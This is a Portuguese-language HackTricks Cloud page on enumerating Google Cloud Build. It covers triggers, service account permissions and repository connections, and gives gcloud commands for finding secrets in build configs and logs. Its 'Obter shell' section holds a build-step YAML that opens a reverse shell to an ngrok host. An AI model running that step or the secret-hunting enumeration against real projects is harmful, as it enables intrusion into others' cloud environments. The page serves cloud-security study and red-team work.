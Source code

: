 # GCP - Enumeração do Cloud Build

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs exclusivos**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Informações Básicas

O Google Cloud Build é uma plataforma gerenciada de CI/CD que **automatiza processos de construção de software** e liberação, integrando-se com **repositórios de código-fonte** e suportando uma ampla gama de linguagens de programação. Ele **permite que desenvolvedores construam, testem e implantem código automaticamente**, oferecendo flexibilidade para personalizar etapas de construção e fluxos de trabalho.

Cada Gatilho do Cloud Build está **relacionado a um Repositório Cloud ou diretamente conectado a um repositório externo** (Github, Bitbucket e Gitlab).

{% hint style="success" %}
Não consegui encontrar nenhuma maneira de roubar o token do Github/Bitbucket daqui ou dos Repositórios Cloud porque quando o repositório é baixado, ele é acessado via URL [https://source.cloud.google.com/](https://source.cloud.google.com/) e o Github não é acessado pelo cliente.
{% endhint %}

### Eventos

O Cloud Build pode ser acionado se:

* **Push para um branch**: Especifique o branch
* **Push de uma nova tag**: Especifique a tag
* **Pull request**: Especifique o branch que recebe o PR
* **Invocação Manual**
* **Mensagem Pub/Sub:** Especifique o tópico
* **Evento de Webhook**: Exporá uma URL HTTPS e a solicitação deve ser autenticada com um segredo

### Execução

Existem 3 opções:

* Um yaml/json **especificando os comandos** a serem executados. Geralmente: `/cloudbuild.yaml`
* Apenas um que pode ser especificado "inline" no console web e no cli
* Opção mais comum
* Relevante para acesso não autenticado
* Um **Dockerfile** para construir
* Um **Buildpack** para construir

### Permissões do SA

A **Conta de Serviço tem o escopo `cloud-platform`**, então ela pode **usar todos os privilégios.** Se **nenhuma SA for especificada** (como quando se faz submit), a **SA padrão** `<proj-number>@cloudbuild.gserviceaccount.com` será **usada.**

Por padrão, nenhuma permissão é concedida, mas é bastante fácil conceder algumas:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Aprovações

É possível configurar um Cloud Build para **exigir aprovações para execuções de construção** (desativado por padrão).

### Conexões & Repositórios

Conexões podem ser criadas sobre:

* **GitHub:** Será mostrado um prompt OAuth pedindo permissões para **obter um token do Github** que será armazenado dentro do **Secret Manager.**
* **GitHub Enterprise:** Será solicitado a instalar um **GithubApp**. Um **token de autenticação** do seu host do GitHub Enterprise será criado e armazenado neste projeto como um segredo do **Secret Manager**.
* **GitLab / Enterprise:** Você precisa **fornecer o token de acesso à API e o token de acesso à API de Leitura** que serão armazenados no **Secret Manager.**

Uma vez que uma conexão é gerada, você pode usá-la para **vincular repositórios aos quais a conta do Github tem acesso**.

Esta opção está disponível através do botão:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Note que repositórios conectados com este método estão **disponíveis apenas em Gatilhos usando a 2ª geração.**
{% endhint %}

### Conectar um Repositório

Isso não é o mesmo que uma **`conexão`**. Isso permite **diferentes** maneiras de obter **acesso a um repositório do Github ou Bitbucket** mas **não gera um objeto de conexão, mas gera um objeto de repositório (de 1ª geração).**

Esta opção está disponível através do botão:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Armazenamento

Às vezes, o Cloud Build irá **gerar um novo armazenamento para guardar os arquivos para o gatilho**. Isso acontece, por exemplo, no exemplo que o GCP oferece com:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Um bucket do Storage chamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) é criado para armazenar um `.tgz` com os arquivos a serem utilizados.

### Obter shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeração

Você pode encontrar **informações sensíveis nas configurações de build e logs**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalada de Privilégios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acesso Não Autenticado

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Pós-Exploração

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
